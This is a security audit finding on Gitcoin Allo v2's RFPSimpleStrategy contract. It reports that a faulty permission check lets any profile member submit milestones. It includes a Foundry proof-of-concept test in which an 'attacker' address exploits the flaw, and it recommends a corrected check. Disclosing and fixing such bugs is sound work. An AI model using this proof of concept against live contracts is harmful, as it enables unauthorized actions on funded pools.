Passive Clay Cougar

high

# Any registered profile member can submit for upcoming milestone in the RFPSimplyStrategy contract

Due to the incorrect boolean operation, a user can be the acceptedRecipientId OR a profile member to submit an upcoming milestone.

## Vulnerability Detail

The acceptedRecipientId is designated by the _allocate function of the RFPSimpleStrategy contract and is used when assessing if a user has the necessary privileges to submit an upcoming milestone through the `submitUpcomingMilestone` function. Only the pool manager has the authority to grant such a role through the `onlyPoolManager` modifier on the `_allocate` function however, because of an incorrect boolean operation, a user can simply be a profile member in order to submit a new milestone where as in the function natspec, both roles are supposed to be required.

```solidity

/// @dev 'msg.sender' must be the 'acceptedRecipientId' and must be a member
///      of a 'Profile' to sumbit a milestone. Emits a 'MilestonesSubmitted()' event.

```

## Impact

A user can trigger the bug by submitting the upcoming milestone without having the authority to do so thus breaking function invariants. The proof of concept below outlines this scenario which can be pasted at the foot of `RFPSimpleStrategy.t.sol` :

```solidity
 		address attacker = vm.addr(9);

    function testMaliciousMilestone() public {

        address sender = recipient();
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});

        bytes memory data = abi.encode(recipientAddress(), false, 1e18, metadata);

        vm.prank(address(allo()));
        address recipientId = strategy.registerRecipient(data, sender);

        // Setup attacker as only profile member - NOT ACCEPTED RECIPIENT ADDRESS
        address[] memory addMod = new address[](1);
        addMod[0] = attacker;
        
        bytes32 anchor = registry().anchorToProfileId(address(strategy.acceptedRecipientId()));
        (, , , , address profileOwner, ) = registry().profilesById(anchor);

        vm.prank(profileOwner);
        registry().addMembers(anchor, addMod);

        // Start scenario
        RFPSimpleStrategy.Milestone[] memory milestones = new RFPSimpleStrategy.Milestone[](2);
        RFPSimpleStrategy.Milestone memory milestone = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 7e17,
            milestoneStatus: IStrategy.Status.Pending
        });
        RFPSimpleStrategy.Milestone memory milestone2 = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 3e17,
            milestoneStatus: IStrategy.Status.Pending
        });

        milestones[0] = milestone;
        milestones[1] = milestone2;

        vm.prank(address(pool_admin()));
        strategy.setMilestones(milestones);

        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientId), address(pool_admin()));

        vm.prank(recipient());
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

        vm.deal(pool_admin(), 1e19);

        vm.prank(pool_admin());
        allo().fundPool{value: 1e19}(poolId, 1e19);

        registry().createProfile(1, "attacker", Metadata({protocol: 1, pointer: "metadata"}), address(attacker), new address[](0) );
        vm.prank(attacker);
        strategy.submitUpcomingMilestone(Metadata({protocol: 2, pointer: "testmetadata"}));
        

    }
```

## Code Snippet

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L255-L257

## Tool used

Manual Review

## Recommendation

I recommend refactoring the permissions check to use an `or` operator as opposed to an `and`. This would look like the following:

```solidity
if (acceptedRecipientId != msg.sender || !_isProfileMember(acceptedRecipientId, msg.sender)) { 
	revert UNAUTHORIZED();
}
```